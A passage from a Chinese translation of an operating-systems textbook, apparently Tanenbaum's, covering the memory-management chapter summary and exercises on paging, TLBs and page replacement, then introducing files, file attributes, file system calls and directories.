接下来是交换技术。系统通过交换技术可以同时运行总内存占用超过物理内存大小的多个进程，如果一个进程没有内存空间可用，它将会被换到磁盘上。内存和磁盘上的空闲空间可以使用位图或空闲区列表来记录。
现代计算机都有某种形式的虚拟内存。在最简单的形式中，每一个进程的地址空间被划分为同等大小的块，称为页面，页面可以被放入内存中任何可用的页框内。有多种页面置换算法，其中两个比较好的算法是老化算法和工作集时钟算法。
为了使分页系统工作良好，仅选择算法是不够的，还要关注诸如工作集的确定、存储器分配策略以及所需要的页面大小等问题。
分段可以帮助处理在执行过程中大小有变化的数据结构，并能简化连接和共享。分段还有利于为不同的段提供不同的保护。有时，可以把分段和分页结合起来，以提供一种二维的虚拟内存。MULTICS系统以及Intel Pentium都是这样既支持分段也支持分页的系统。
1.在图3-3中基址和界限寄存器含有相同的值16 384，这是巧合，还是它们总是相等？如果这只是巧合，为什么在这个例子里它们是相等的？
2.交换系统通过紧缩来消除空闲区。假设有很多空闲区和数据段随机分布，并且读或写32位长的字需要10ns的时间，紧缩128MB大概需要多长时间？为了简单起见，假设空闲区中含有字0，内存中最高地址处含有有效数据。
3.请比较用位图和链表两种方法来记录空闲内存所需的存储空间。128MB的内存以n字节为单元分配，对于链表，假设内存中数据段和空闲区交替排列，长度均为64KB。并假设链表中的每个结点需要32位的内存地址、16位长度和16位下一结点域。这两种方法分别需要多少字节的存储空间？哪种方法更好？
4.在一个交换系统中，按内存地址排列的空闲区大小是：10KB、4KB、20KB、18KB、7KB、9KB、12KB和15KB。对于连续的段请求：a)12KB；b)10KB；c)9KB。使用首次适配算法，将找出哪个空闲区？使用最佳适配、最差适配、下次适配算法呢？
5.对下面的每个十进制虚拟地址，分别使用4KB页面和8KB页面计算虚拟页号和偏移量：20000，32768，60000。
6.Intel 8086处理器不支持虚拟内存，然而一些公司曾经设计过包含未作任何改动的8086 CPU的分页系统。猜想一下，他们是如何做到这一点的。提示：考虑MMU的逻辑位置。
7.考虑下面的C程序：
int X[N];
int step=M;//M是某个预定义的常量
for(int i=0;i＜N;i+=step)X[i]=X[i]+1;
a)如果这个程序运行在一个页面大小为4KB且有64个TLB表项的机器上时，M和N取什么值会使得内层循环的每次执行都会引起TLB失效？
b)如果循环重复很多遍，结果会和a)的答案相同吗？请解释。
8.存储页面必须可用的磁盘空间和下列因素有关：最大进程数n，虚拟地址空间的字节数v，RAM的字节数r。给出最坏情况下磁盘空间需求的表达式。这个数量的真实性如何？
9.一个机器有32位地址空间和8KB页面，页表完全用硬件实现，页表的每一表项为一个32位字。进程启动时，以每个字100ns的速度将页表从内存复制到硬件中。如果每个进程运行100 ms（包含装入页表的时间），用来装入页表的CPU时间的比例是多少？
10.假设一个机器有48位的虚拟地址和32位的物理地址。
a)假设页面大小是4KB，如果只有一级页表，那么在页表里有多少页表项？请解释。
b)假设同一系统有32个TLB表项，并且假设一个程序的指令正好能放入一个页，并且该程序顺序地从有数千个页的数组中读取长整型元素。在这种情况下TLB的效果如何？
11.假设一个机器有38位的虚拟地址和32位的物理地址。
a)与一级页表比较，多级页表的主要优点是什么？
b)一个有16KB个页、4字节表项的二级页表，应该对第一级页表域分配多少位，对第二级页表域分配多少位？请解释原因。
12.一个32位地址的计算机使用两级页表。虚拟地址被分成9位的顶级页表域、11位的二级页表域和一个偏移量，页面大小是多少？在地址空间中一共有多少个页面？
13.假设一个32位虚拟地址被分成a、b、c、d四个域。前三个域用于一个三级页表系统，第四个域d是偏移量。页面数与这四个域的大小都有关系吗？如果不是，与哪些因素有关以及与哪些因素无关？
14.一个计算机使用32位的虚拟地址，4KB大小的页面。程序和数据都位于最低的页面（0～4095），堆栈位于最高的页面。如果使用传统（一级）分页，页表中需要多少个表项？如果使用两级分页，每部分有10位，需要多少个页表项？
15.一台计算机的进程在其地址空间有1024个页面，页表保存在内存中。从页表中读取一个字的开销是5ns。为了减小这一开销，该计算机使用了TLB，它有32个（虚拟页面，物理页框）对，能在1ns内完成查找。请问把平均开销降到2ns需要的命中率是多少？
16.VAX机中的TLB中没有包含R位，为什么？
17.TLB需要的相联存储设备如何用硬件实现，这种设计对扩展性意味着什么？
18.一台机器有48位虚拟地址和32位物理地址，页面大小是8KB，试问页表中需要多少个表项？
19.一个计算机的页面大小为8KB，内存大小为256KB，虚拟地址空间为64GB，使用倒排页表实现虚拟内存。为了保证平均散列链的长度小于1，散列表应该多大？假设散列表的大小为2的幂。
20.一个学生在编译器设计课程中向教授提议了一个项目：编写一个编译器，用来产生页面访问列表，该列表可以用于实现最优页面置换算法。试问这是否可能？为什么？有什么方法可以改进运行时的分页效率？
21.假设虚拟页码索引流中有一些长的页码索引序列的重复，序列之后有时会是一个随机的页码索引。例如，序列0，1，...，511，431，0，1，...，511，332，0，1，...中就包含了0，1，...，511的重复，以及跟随在它们之后的随机页码索引431和332。
a)在工作负载比该序列短的情况下，标准的页面置换算法（LRU，FIFO，Clock）在处理换页时为什么效果不好？
b)如果一个程序分配了500个页框，请描述一个效果优于LRU、FIFO或Clock算法的页面置换方法。
22.如果将FIFO页面置换算法用到4个页框和8个页面上，若初始时页框为空，访问字符串为0172327103，请问会发生多少次缺页中断？如果使用LRU算法呢？
23.考虑图3-15b中的页面序列。假设从页面B到页面A的R位分别是11011011。使用第二次机会算法，被移走的是哪个页面？
24.一台小计算机有4个页框。在第一个时钟滴答时R位是0111（页面0是0，其他页面是1），在随后的时钟滴答中这个值是1011、1010、1101、0010、1010、1100、0001。如果使用带有8位计数器的老化算法，给出最后一个滴答后4个计数器的值。
25.请给出一个页面访问序列，其第一个被选择置换的页面必须不同于Clock和LRU算法。假设一个进程分配了3个页框，访问串中的页号属于集合0，1，2，3。
26.在图3-21c的工作集时钟算法中，表针指向那个R=0的页面。如果τ=400，这个页面将被移出吗？如果τ=1000呢？
27.把一个64KB的程序从平均寻道时间10ms、旋转延迟时间10ms、每磁道32KB的磁盘上装入，对于下列页面大小分别需要多少时间？
a)页面大小为2KB。
b)页面大小为4KB。
假设页面随机地分布在磁盘上，柱面的数目非常大以至于两个页面在同一个柱面的机会可以忽略不计。
28.一个计算机有4个页框，装入时间、上次访问时间和每个页的R位和M位如下所示（时间以时钟滴答为单位）：
a)NRU算法将置换哪个页面？
b)FIFO算法将置换哪个页面？
c)LRU算法将置换哪个页面？
d)第二次机会算法将置换哪个页面？
29.有二维数组：
int X[64][64];
假设系统中有4个页框，每个页框大小为128个字（一个整数占用一个字）。处理数组X的程序正好可以放在一页中，而且总是占用0号页。数据会在其他3个页框中被换入或换出。数组X为按行存储（即，在内存中，X[0][0]之后是X[0][1]）。下面两段代码中，哪一个会有最少的缺页中断？请解释原因，并计算缺页中断的总数。
A段：
for(int j=0;j＜64;j++)
for(int i=0;i＜64;i++)X[i[[j]=0;
B段：
for(int i=0;i＜64;i++)
for(int j=0;j＜64;j++)X[i][[j]=0;
30.PDP-1是最早的分时计算机之一，有4K个18位字的内存。在每个时刻它在内存中保持一个进程。当调度程序决定运行另一个进程时，将内存中的进程写到一个换页磁鼓上，磁鼓的表面有4K个18位字。磁鼓可以从任何字开始读写，而不仅仅是字0。请解释为什么要选这个磁鼓？
31.一台计算机为每个进程提供65 536字节的地址空间，这个地址空间被划分为4096字节的页面。一个特定的程序有327 68字节的正文、16 386字节的数据和15 870字节的堆栈。这个程序能装入这个地址空间吗？如果页面大小是512字节，能放得下吗？记住一个页面不能同时包含两个不同段的成分。
32.一个页面同一时刻可能在两个工作集中吗？请解释原因。
33.人们已经观察到在两次缺页中断之间执行的指令数与分配给程序的页框数直接成比例。如果可用内存加倍，缺页中断间的平均间隔也加倍。假设一条普通指令需要1µs，但是如果发生了缺页中断就需要2001µs（即2ms处理缺页中断）。如果一个程序运行了60s，期间发生了15 000次缺页中断，如果可用内存是原来的两倍，那么这个程序运行需要多少时间？
34.Frugal计算机公司的一组操作系统设计人员正在考虑在他们的新操作系统中减少对后备存储数量的需求。老板建议根本不要把程序正文保存在交换区中，而是在需要的时候直接从二进制文件中调页进来。在什么条件下（如果有这样的条件话）这种想法适用于程序文本？在什么条件下（如果有这样的条件话）这种想法适用于数据？
35.有一条机器语言指令将要被调入，该指令可把一个32位字装入含有32位字地址的寄存器。这个指令可能引起的最大缺页中断次数是多少？
36.像在MULTICS中那样，当同时使用分段和分页时，首先必须查找段描述符，然后是页描述符。TLB也是这样按两级查找的方式工作的吗？
37.一个程序中有两个段，段0中为指令，段1中为读/写数据。段0有读/执行保护，段1有读/写保护。内存是请求分页式虚拟内存系统，它的虚拟地址为4位页号，10位偏移量。页表和保护如下所示（表中的数字均为十进制）：
对于下面的每种情形，或者给出动态地址所对应的实（实际）内存地址，或者指出发生了哪种失效（缺页中断，或保护错误）。
a)读取页：段1，页1，偏移3；
b)存储页：段0，页0，偏移16；
c)读取页：段1，页4，偏移28；
d)跳转到：段1，页3，偏移32。
38.你能想象在哪些情况下支持虚拟内存是个坏想法吗？不支持虚拟内存能得到什么好处呢？请解释。
39.构造一个柱状图，计算你的计算机中可执行二进制文件大小的平均值和中间值。在Windows系统中，观察所有的.exe和.dll文件；在UNIX系统中，观察/bin、/usr/bin、/local/bin目录下的所有非脚本文件的可执行文件（或者使用file工具来查找所有的可执行文件）。确定这台机器的最优页面大小，只考虑代码（不包括数据）。考虑内部碎片和页表大小，对页表项的大小做出合理的假设。假设所有的程序被执行的可能性相同，所以可以同等对待。
40.MS-DOS中的小程序可以编译成.COM文件。这些文件总是装载到0x100地址的一个内存段，这个内存段用作代码、数据和堆栈。转移执行的控制指令（如JMP、CALL）和访问静态数据的指令把地址编译进目标代码中。写一个程序重定向这个程序文件，使之可以在任意开始地址处运行。读者的程序必须扫描代码，寻找指向固定内存地址的目标代码，然后在重定向范围内修改那些指向内存单元的地址。可以在汇编语言程序正文中找到这些目标地址。注意，要想不借助于额外的信息就出色完成这项工作通常是不可能的，因为有些数据字的值和指令目标代码相仿。
41.编写一个程序，它使用老化算法模拟一个分页系统。页框的数量是参数。页面访问序列从文件中读取。对于一个给定的输入文件，列出每1000个内存访问中发生缺页中断的数目，它是可用页框数的函数。
42.编写一个程序，说明TLB失效对有效内存存取时间的影响，内存存取时间可以用计算每次遍历大数组时的读取时间来衡量。
a)解释编程思想，并描述所期望输出如何展示一些实际的虚拟内存体系结构。
b)运行该程序，并解释运行结果与你的预期有何出入。
c)在一台更古老的且有着不同体系结构的计算机上重复b)，并解释输出上的区别。
43.编写一个程序，该程序能说明当有两个进程的简单情况下，使用局部页置换策略和全局页置换策略的差异。读者将会用到能生成一个基于统计模型的页面访问串的例程。这个模型有N个状态，从0到N-1，代表每个可能的页面访问，每个状态i相关的概率pi 代表下一次访问仍指向同一页面的几率。否则，下一次页面访问将以等概率指向其他任何一个页面。
a)说明当N比较小时，页面访问串生成例程能运行正常。
b)对有一个进程和固定数量的页框的情况计算缺页中断率。解释这种结果为什么是正确的。
c)对有独立页面访问序列的两个进程，以及是b)中页框数两倍的页框，重复b)。
所有的计算机应用程序都需要存储和检索信息。进程运行时，可以在它自己的地址空间存储一定量的信息，但存储容量受虚拟地址空间大小的限制。对于某些应用程序，它自己的地址空间已经足够用了；但是对于其他一些应用程序，例如航空订票系统、银行系统或者公司记账系统，这些存储空间又显得太小了。
在进程的地址空间上保存信息的第二个问题是：进程终止时，它保存的信息也随之丢失。对于很多应用（如数据库）而言，有关信息必须能保存几星期、几个月，甚至永久保留。在使用信息的进程终止时，这些信息是不可以消失的，甚至，即使是系统崩溃致使进程消亡了，这些信息也应该保存下来。
第三个问题是：经常需要多个进程同时存取同一信息（或者其中部分信息）。如果只在一个进程的地址空间里保存在线电话簿，那么只有该进程才可以对它进行存取，也就是说一次只能查找一个电话号码。解决这个问题的方法是使信息本身独立于任何一个进程。
因此，长期存储信息有三个基本要求：
1)能够存储大量信息。
2)使用信息的进程终止时，信息仍旧存在。
3)必须能使多个进程并发存取有关信息。
磁盘（magnetic disk）由于其长期存储的性质，已经有多年的使用历史。磁带与光盘虽然也在使用，但它们的性能很低。我们将在第5章学习更多有关磁盘的知识，但目前我们可以先把磁盘当作一种固定块大小的线性序列，并且支持如下两种操作：
1)读块k；
2)写块k。
事实上磁盘支持更多的操作，但只要有了这两种操作，原则上就可以解决长期存储的问题。
不过，这里存在着很多不便于实现的操作，特别是在有很多程序或者多用户使用着的大型系统上（如服务器）。在这种情况下，很容易产生一些问题，例如：
1)如何找到信息？
2)如何防止一个用户读取另一个用户的数据？
3)如何知道哪些块是空闲的？
就像我们看到的操作系统提取处理器的概念来建立进程的抽象，以及提取物理存储器的概念来建立进程（虚拟）地址空间的抽象那样，我们可以用一个新的抽象——文件来解决这个问题。进程（与线程）、地址空间和文件，这些抽象概念均是操作系统中最重要的概念。如果真正深入理解了这三个概念，那么读者就迈上了成为一个操作系统专家的道路。
文件是进程创建的信息逻辑单元。一个磁盘一般含有几千甚至几百万个文件，每个文件是独立于其他文件的。文件不仅仅被用来对磁盘建模，以替代对随机存储器（RAM）的建模，事实上，如果能把每个文件看成一种地址空间，那么读者就离理解文件的本质不远了。
进程可以读取已经存在的文件，并在需要时建立新的文件。存储在文件中的信息必须是持久的，也就是说，不会因为进程的创建与终止而受到影响。一个文件应只在其所有者明确删除它的情况下才会消失。尽管读写文件是最常见的操作，但还存在着很多其他操作，其中的一些我们将在下面加以介绍。
文件是受操作系统管理的。有关文件的构造、命名、存取、使用、保护、实现和管理方法都是操作系统设计的主要内容。从总体上看，操作系统中处理文件的部分称为文件系统（file system），这就是本章的论题。
从用户角度来看，文件系统中最重要的是它在用户眼中的表现形式，也就是文件是由什么组成的，怎样给文件命名，怎样保护文件，以及可以对文件进行哪些操作等。至于用链表还是用位图来记录空闲存储区以及在一个逻辑磁盘块中有多少个扇区等细节并不是用户所关心的，当然对文件系统的设计者来说这些内容是相当重要的。正因为如此，本章将分为几节讲述，前两节分别叙述在用户层面的关注内容——文件和目录，随后是有关文件系统实现的详细讨论，最后是文件系统的一些实例。
在本节中，我们从用户角度来考察文件，也就是说，用户如何使用文件，文件具有哪些特性。
文件是一种抽象机制，它提供了一种在磁盘上保留信息而且方便以后读取的方法。这种方法可以使用户不用了解存储信息的方法、位置和实际磁盘工作方式等有关细节。
也许任何一种抽象机制的最重要的特性就是对管理对象的命名方式，所以，我们将从对文件的命名开始考察文件系统。在进程创建文件时，它给文件命名。在进程终止时，该文件仍旧存在，并且其他进程可以通过这个文件名对它进行访问。
文件的具体命名规则在各个系统中是不同的，不过所有的现代操作系统都允许用1至8个字母组成的字符串作为合法的文件名。因此，andrea、bruce和cathy都是合法文件名。通常，文件名中也允许有数字和一些特殊字符，所以像2、urgent!和Fig.2-14也是合法的。许多文件系统支持长达255个字符的文件名。
有的文件系统区分大小写字母，有的则不区分。UNIX是前一类，MS-DOS是后一类。所以在UNIX系统中maria、Maria和MARIA是三个不同的文件，而在MS-DOS中，它们是同一个文件。
关于文件系统在这里需要插一句，Windows 95与Windows 98用的都是MS-DOS的文件系统，即FAT-16，因此继承了其很多性质，例如有关文件名的构造方法。Windows 98对FAT-16引入了一些扩展，从而成为FAT-32，但这两者是很相似的。并且，Windows NT、Windows 2000、Windows XP和Windows Vista支持这两种已经过时的FAT文件系统。这4个基于NT的操作系统有着一个自带文件系统（NTFS），它具有很多不同的性质（例如基于Unicode的文件名）。在本章中，当提到MS-DOS或FAT文件系统的时候，我们指的是用在Windows上的FAT-16和FAT-32，除非特别指明。我们将晚一些在这章讨论FAT文件系统，并在第11章讨论NTFS，并细致地分析了Windows Vista。
许多操作系统支持文件名用圆点隔开分为两部分，如文件名prog.c。圆点后面的部分称为文件扩展名（file extension），文件扩展名通常表示文件的一些信息，如MS-DOS中，文件名由1至8个字符以及1至3个字符的可选扩展名组成。在UNIX里，如果有扩展名，则扩展名长度完全由用户决定，一个文件甚至可以包含两个或更多的扩展名。如homepage.html.zip，这里.html表明HTML格式的一个Web页面，.zip表示该文件（homepage.html）已经采用zip程序压缩过。一些常用文件扩展名及其含义如图4-1所示。
在某些系统中（如UNIX），文件扩展名只是一种约定，操作系统并不强迫采用它。名为file.txt的文件也许是文本文件，这个文件名在于提醒所有者，而不是表示传送什么信息给计算机。但是另一方面，C编译器可能要求它编译的文件以.c结尾，否则它会拒绝编译。
对于可以处理多种类型文件的某个程序，这类约定是特别有用的。例如，C编译器可以编译、连接多种文件，包括C文件和汇编语言文件。这时扩展名就很必要，编译器利用它区分哪些是C文件，哪些是汇编文件，哪些是其他文件。
相反，Windows对扩展名赋予含义。用户（或进程）可以在操作系统中注册扩展名，并且规定哪个程序“拥有”该扩展名。当用户双击某个文件名时，“拥有”该文件扩展名的程序就启动并运行该文件。例如，双击file.doc启动了Microsoft Word程序，并以file.doc作为待编辑的初始文件。
文件可以有多种构造方式，在图4-2中列出了常用的三种方式。图4-2a中的文件是一种无结构的字节序列，操作系统事实上不知道也不关心文件内容是什么，操作系统所见到的就是字节，其任何含义只在用户程序中解释。在UNIX和Windows中都采用这种方法。
把文件看成字节序列为操作系统提供了最大的灵活性。用户程序可以向文件中加入任何内容，并以任何方便的形式命名。操作系统不提供任何帮助，但也不会构成阻碍。对于想做特殊操作的用户来说，后者是非常重要的。所有UNIX、MS-DOS以及Windows都采用这种文件模型。
图4-2b表示在文件结构上的第一步改进。在这个模型中，文件是具有固定长度记录的序列，每个记录都有其内部结构。把文件作为记录序列的中心思想是：读操作返回一个记录，而写操作重写或追加一个记录。这里对“记录”给予一个历史上的说明，几十年前，当80列的穿孔卡片还是主流的时候，很多（大型机）操作系统把文件系统建立在由80个字符的记录组成的文件基础之上。这些操作系统也支持132个字符的记录组成的文件，这是为了适应行式打印机（当时的行式打印机有132列宽）。程序以80个字符为单位读入数据，并以132个字符为单位写数据，其中后面52个字符都是空格。现在已经没有以这种方式工作的通用系统了，但是在80列穿孔卡片和132列宽行式打印机流行的日子里，这是大型计算机系统中的常见模式。
第三种文件结构如图4-2c所示。文件在这种结构中由一棵记录树构成，每个记录并不具有同样的长度，而记录的固定位置上有一个“键”字段。这棵树按“键”字段进行排序，从而可以对特定“键”进行快速查找。
虽然在这类结构中取“下一个”记录是可以的，但是基本操作并不是取“下一个”记录，而是获得具有特定键的记录。如图4-2c中的文件zoo，用户可以要求系统取键为pony的记录，而不必关心记录在文件中的确切位置。进而，可以在文件中添加新记录。但是，把记录加在文件的什么位置是由操作系统而不是用户决定的。这类文件结构与UNIX和Windows中采用的无结构字节流明显不同，但它在一些处理商业数据的大型计算机中获得广泛使用。
很多操作系统支持多种文件类型。如UNIX和Windows中都有普通文件和目录，UNIX还有字符特殊文件（character special file）和块特殊文件（block special file）。普通文件（regular file）中包含有用户信息。图4-2中的所有文件都是普通文件。目录（directory）是管理文件系统结构的系统文件，将在以后的章节中讨论。字符特殊文件和输入/输出有关，用于串行I/O类设备，如终端、打印机、网络等。块特殊文件用于磁盘类设备。本章主要讨论普通文件。
普通文件一般分为ASCII文件和二进制文件。ASCII文件由多行正文组成。在某些系统中，每行用回车符结束，其他系统则用换行符结束。有些系统还同时采用回车符和换行符（如MS-DOS）。文件中各行的长度不一定相同。
ASCII文件的最大优势是可以显示和打印，还可以用任何文本编辑器进行编辑。再者，如果很多程序都以ASCII文件作为输入和输出，就很容易把一个程序的输出作为另一个程序的输入，如shell管道一样。（用管道实现进程间通信并非更容易，但若以一种公认的标准（如ASCII码）来表示，则更易于理解一些。）
其他与ASCII文件不同的是二进制文件。打印出来的二进制文件是无法理解的、充满混乱字符的一张表。通常，二进制文件有一定的内部结构，使用该文件的程序才了解这种结构。
如图4-3a是一个简单的可执行二进制文件，它取自某个版本的UNIX。尽管这个文件只是一个字节序列，但只有文件的格式正确时，操作系统才会执行这个文件。这个文件有五个段：文件头、正文、数据、重定位位及符号表。文件头以所谓的魔数（magic number）开始，表明该文件是一个可执行的文件（防止非这种格式的文件偶然运行）。魔数后面是文件中各段的长度、执行的起始地址和一些标志位。程序本身的正文和数据在文件头后面。这些被装入内存，并使用重定位位重新定位。符号表则用于调试。
二进制文件的第二个例子是UNIX的存档文件，它由已编译但没有连接的库过程（模块）集合而成。每个文件以模块头开始，其中记录了名称、创建日期、所有者、保护码和文件大小。该模块头与可执行文件一样，也都是二进制数字，打印输出它们毫无意义。
所有操作系统必须能够识别它们自己的可执行文件的文件类型，其中有些操作系统还可识别更多的信息。一种老式的TOPS-20操作系统（用于DECsystem20计算机）甚至可检查可执行文件的创建时间，然后，它可以找到相应的源文件，看它在二进制文件生成后是否被修改过。如果修改过，操作系统自动重新编译这个文件。在UNIX中，就是在shell中嵌入make程序。这时操作系统要求用户必须采用固定的文件扩展名，从而确定哪个源程序生成哪个二进制文件。
如果用户执行了系统设计者没有考虑到的某种操作，这种强制类型的文件有可能会引起麻烦。比如在一个系统中，程序输出文件的扩展名是.dat（数据文件），若用户写一个格式化程序，读入.c（C程序）文件并转换它（比如把该文件转换成标准的首行缩进），再把转换后的文件以.dat类型输出。如果用户试图用C编译器来编译这个文件，因为文件扩展名不对，C编译器会拒绝编译。若想把file.dat复制到file.c也不行，因为系统会认为这是无效的复制（防止用户错误）。
尽管对初学者而言，这类“保护”是有利的，但一些有经验的用户却感到很烦恼，因为他们要花很多精力来适应操作系统对合理和不合理操作的划分。
早期操作系统只有一种文件存取方式：顺序存取（sequential access）。进程在这些系统中可从头顺序读取文件的全部字节或记录，但不能跳过某一些内容，也不能不按顺序读取。顺序存取文件是可以返回到起点的，需要时可多次读取该文件。在存储介质是磁带而不是磁盘时，顺序存取文件是很方便的。
当用磁盘来存储文件时，我们可以不按顺序地读取文件中的字节或记录，或者按照关键字而不是位置来存取记录。这种能够以任何次序读取其中字节或记录的文件称作随机存取文件（random access file）。许多应用程序需要这种类型的文件。
随机存取文件对很多应用程序而言是必不可少的，如数据库系统。如果乘客打电话预订某航班机票，订票程序必须能直接存取该航班记录，而不必先读出其他航班的成千上万个记录。
有两种方法可以指示从何处开始读取文件。一种是每次read操作都给出开始读文件的位置。另一种是用一个特殊的seek操作设置当前位置，在seek操作后，从这个当前位置顺序地开始读文件。UNIX和Windows使用的是后一种方法。
文件都有文件名和数据。另外，所有的操作系统还会保存其他与文件相关的信息，如文件创建的日期和时间、文件大小等。这些附加信息称为文件属性（attribute），有些人称之为元数据（metadata）。文件的属性在不同系统中差别很大。一些常用的属性在图4-4中列出，但还存在其他的属性。没有一个系统具有所有这些属性，但每种属性都在某种系统中采用。
前4个属性与文件保护相关，它们指出了谁可以存取这个文件，谁不能存取这个文件。有各种不同的文件保护方案，其中一些保护方案以后会讨论。在一些系统中，用户必须给出口令才能存取文件。此时，口令也必须是文件属性之一。
标志是一些位或短的字段，用于控制或启用某些特殊属性。例如，隐藏文件不在文件列表中出现。存档标志位用于记录文件是否备份过，由备份程序清除该标志位；若文件被修改，操作系统则设置该标志位。用这种方法，备份程序可以知道哪些文件需要备份。临时标志表明当创建该文件的进程终止时，文件会被自动删除。
记录长度、键的位置和键的长度等字段只能出现在用关键字查找记录的文件里，它们提供了查找关键字所需的信息。
时间字段记录了文件的创建时间、最近一次存取时间以及最后一次修改时间，它们的作用不同。例如，目标文件生成后被修改的源文件需要重新编译生成目标文件。这些字段提供了必要的信息。
当前大小字段指出了当前的文件大小。在一些老式大型机操作系统中创建文件时，要给出文件的最大长度，以便操作系统事先按最大长度留出存储空间。工作站和和个人计算机中的操作系统则聪明多了，不需要这一点提示。
使用文件的目的是存储信息并方便以后的检索。对于存储和检索，不同系统提供了不同的操作。以下是与文件有关的最常用的一些系统调用：
1)create。创建不包含任何数据的文件。该调用的目的是表示文件即将建立，并设置文件的一些属性。
2)delete。当不再需要某个文件时，必须删除该文件以释放磁盘空间。任何文件系统总有一个系统调用用来删除文件。
3)open。在使用文件之前，必须先打开文件。open调用的目的是：把文件属性和磁盘地址表装入内存，便于后续调用的快速存取。
4)close。存取结束后，不再需要文件属性和磁盘地址，这时应该关闭文件以释放内部表空间。很多系统限制进程打开文件的个数，以鼓励用户关闭不再使用的文件。磁盘以块为单位写入，关闭文件时，写入该文件的最后一块，即使这个块还没有满。
5)read。在文件中读取数据。一般地，读出数据来自文件的当前位置。调用者必须指明需要读取多少数据，并且提供存放这些数据的缓冲区。
6)write。向文件写数据，写操作一般也是从文件当前位置开始。如果当前位置是文件末尾，文件长度增加。如果当前位置在文件中间，则现有数据被覆盖，并且永远丢失。
7)append。此调用是write的限制形式，它只能在文件末尾添加数据。若系统只提供最小系统调用集合，则通常没有append。很多系统对同一操作提供了多种实现方法，这些系统中有时有append调用。
8)seek。对于随机存取文件，要指定从何处开始取数据，通常的方法是用seek系统调用把当前位置指针指向文件中特定位置。seek调用结束后，就可以从该位置开始读写数据了。
9)get attributes。进程运行常需要读取文件属性。例如，UNIX中make程序通常用于管理由多个源文件组成的软件开发项目。在调用make时，检查全部源文件和目标文件的修改时间，实现最小编译，使得全部文件都为最新版本。为达到此目的，需要查找文件的某一些属性，特别是修改时间。
10)set attributes。某些属性是可由用户设置的，在文件创建之后，用户还可以通过系统调用set attributes来修改它们。保护模式信息是一个显著的例子，大多数标志也属于此类属性。
11)rename。用户常常要改变已有文件的名字，rename系统调用用于这一目的。严格地说，设置这个系统调用不是十分必要的，因为可以先把文件复制到一个新文件名的文件中，然后删除原来的文件。
本节会考察一个简单的UNIX程序，它把文件从源文件处复制到目标文件处。程序清单如图4-5所示。该程序的功能很简单，甚至没有考虑出错报告处理，但它给出了有关文件的系统调用是怎样工作的一般思路。
例如，通过下面的命令行可以调用程序copyfile：
copyfile abc xyz
把文件abc复制到xyz。如果xyz已经存在，abc会覆盖它。否则，就创建它。程序调用必须提供两个参数，它们都是合法的文件名。第一个是源文件；第二个是输出文件。
在程序的开头是四个#include语句，它们把大量的定义和函数原型包含在这个程序。为了使程序遵守相应的国际标准，这些是需要的，无须作进一步的讨论。接下来一行是main函数的原型，这是ANSI C所必需的，但对我们的目的而言，它也不是重点。
接下来的第一个#define语句是一个宏定义，它把BUF_SIZE字符串定义为一个宏，其数值为4096。程序会读写若干个有4096个字节的块。类似地，给常数一个名称而且用这一名称代替常数是一种良好的编程习惯。这样的习惯不仅使程序易读，而且使程序易于维护。第二个#define语句决定谁可以访问输出文件。
主程序名为main，它有两个参数：argc和argv。当调用这个程序时，操作系统提供这两个参数。第一个参数表示在调用该程序的命令行中包含多少个字符串，包括该程序名。它应该是3。第二个参数是指向程序参数的指针数组。在上面的示例程序中，这一数组的元素应该包含指向下列值的指针：
argv[0]="copyfile"
argv[1]="abc"
argv[2]="xyz"
正是通过这个数组，程序访问其参数。
声明了五个变量。前面两个（in_fd和out_fd）用来保存文件描述符，即打开一个文件时返回一个小整数。后面两个（rd_count和wt_count）分别是由read和write系统调用所返回的字节计数。最后一个（buffer）是用于保存所读出的数据以及提供写入数据的缓冲区。
第一行实际语句检查argc，看它是否是3。如果不是，它以状态码1退出。任何非0的状态码均表示出错。在本程序中，状态码是惟一的出错报告处理。一个程序的产品版通常会打印出错信息。
接着我们试图打开源文件并创建目标文件。如果源文件成功打开，系统会给in_fd赋予一个小的整数，用以标识源文件。后续的调用必须引用这个整数，使系统知道需要的是哪一个文件。类似地，如果目标文件也成功地创建了，out_fd会被赋予一个标识用的值。create的第二个变量是设置保护模式。如果打开或创建文件失败，对应的文件描述符被设为-1，程序带着出错码退出。
接下来是用来复制文件的循环。一开始试图读出4KB数据到buffer中。它通过调用库过程read来完成这项工作，该过程实际激活了read系统调用。第一个参数标识文件，第二个参数指定缓冲区，第三个参数指定读出多少字节。赋予rd_count的字节数是实际所读出的字节数。通常这个数是4096，除非文件中只有少量字节。当到达文件尾部时，该参数的值是0。如果rd_count是零或负数，复制工作就不能再进行下去，所以执行break语句，用以中断循环（否则就无法结束了）。
调用write把缓冲区的内容输出到目标文件中去。第一个参数标识文件，第二个参数指定缓冲区，第三个参数指定写入多少字节，同read类似。注意字节计数是实际读出的字节数，不是BUF_SIZE。这一点是很重要的，因为最后一个缓冲区一般不会是4096，除非文件长度碰巧是4KB的倍数。
当整个文件处理完时，超出文件尾部的首次调用会把0值返回给rd_count，这样，程序会退出循环。此时，关闭两个文件，程序退出并附有正常完成的状态码。
尽管Windows的系统调用与UNIX的系统调用不同，但是Windows程序复制文件的命令行的一般结构与图4-5中的相当类似。我们将在第11章中考察Windows Vista的系统调用。
文件系统通常提供目录或文件夹用于记录文件，在很多系统中目录本身也是文件。本节讨论目录、目录的组成、目录的特性和可以对目录进行的操作。
目录系统的最简单形式是在一个目录中包含所有的文件。这有时称为根目录，但是由于只有一个目录，所以其名称并不重要。在早期的个人计算机中，这种系统很普遍，部分原因是因为只有一个用户。有趣的是，世界第一台超级计算机CDC 6600对于所有的文件也只有一个目录，尽管该机器同时被许多用户使用。这样决策毫无疑问是为了使软件设计简单。
一个单层目录系统的例子如图4-6所示。该目录中有四个文件。这一设计的优点在于简单，并且能够快速定位文件——事实上只有一个地方要查看。这种目录系统经常用于简单的嵌入式装置中，诸如电话、数码相机以及一些便携式音乐播放器等。
对于简单的特殊应用而言，单层目录是合适的（单层目录甚至用在了第一代个人计算机中），但是现在的用户有着成千的文件，如果所有的文件都在一个目录中，寻找文件就几乎不可能了。这样，就需要有一种方式将相关的文件组合在一起。例如，某个教授可能有一些文件，第一组文件是为了一门课程而写作的，第二组文件包含了学生为另一门课程所提交的程序，第三组文件是他构造的一个高级编译-写作系统的代码，而第四组文件是奖学金建议书，还有其他与电子邮件、短会、正在写作的文章、游戏等有关的文件。
这里所需要的是层次结构（即，一个目录树）。通过这种方式，可以用很多目录把文件以自然的方式分组。进而，如果多个用户分享同一个文件服务器，如许多公司的网络系统，每个用户可以为自己的目录树拥有自己的私人根目录。这种方式如图4-7所示，其中，根目录含有目录A、B和C，分别属于不同用户，其中有两个用户为他们的项目创建了子目录。
